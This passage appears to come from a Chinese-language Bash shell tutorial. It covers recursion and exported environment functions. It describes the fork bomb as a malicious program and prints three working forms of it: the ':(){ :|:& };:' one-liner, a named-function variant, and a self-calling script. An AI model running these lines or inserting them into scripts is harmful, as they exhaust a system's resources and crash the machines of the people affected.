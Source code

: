 ![][1]



Paste_Image.png

### fork炸弹

    1.fork炸弹
    一种恶意程序，它的内部是一个不断在fork进程的无限循环，实质是一个简单的递归程序；
    由于程序是递归的，如果没有任何限制，这会导致这个简单的程序迅速耗尽系统里面的所有资源；

    2.函数实现
    :() { :|:& };:
    bomb() { bomb | bomb & }; bomb

    3.脚本实现
    cat bomb.sh
    #!/bin/bash
    ./$0|./$0&

## 八、匿名函数和环境函数

    匿名函数：{ cmd1;cmd2 }

    环境函数
    (1)定义函数；
    (2)declare -fx 或 export -f  声明环境函数；
    (3)调用；
    让子进程继承父进程的函数；

![][2]


[1]: http://upload-images.jianshu.io/upload_images/6044565-0f1af77e219cb1a8.png
[2]: http://upload-images.jianshu.io/upload_images/6044565-fd40ad0415881294.png